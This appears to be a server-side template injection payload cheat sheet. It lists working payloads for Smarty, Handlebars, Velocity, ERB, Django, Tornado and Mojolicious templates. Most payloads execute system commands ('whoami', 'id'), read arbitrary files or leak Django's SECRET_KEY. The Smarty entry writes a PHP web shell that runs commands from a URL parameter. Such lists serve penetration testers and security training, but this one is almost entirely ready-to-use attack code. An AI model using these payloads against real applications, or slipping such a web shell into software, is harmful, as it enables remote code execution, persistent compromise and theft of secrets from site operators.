 ### `Smarty (PHP)`
```
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
```
### `Handlebars(NodeJS)`
```js
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
### `Velocity`
```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```
### `ERB (Ruby)`
```ruby
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```
### `Django Tricks (Python)`
```python
{% debug %}
{{settings.SECRET_KEY}}
```
### `Tornado (Python)`
```python
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
```
### `Mojolicious (Perl)`
```perl
<%= perl code %>
<% perl code %>
```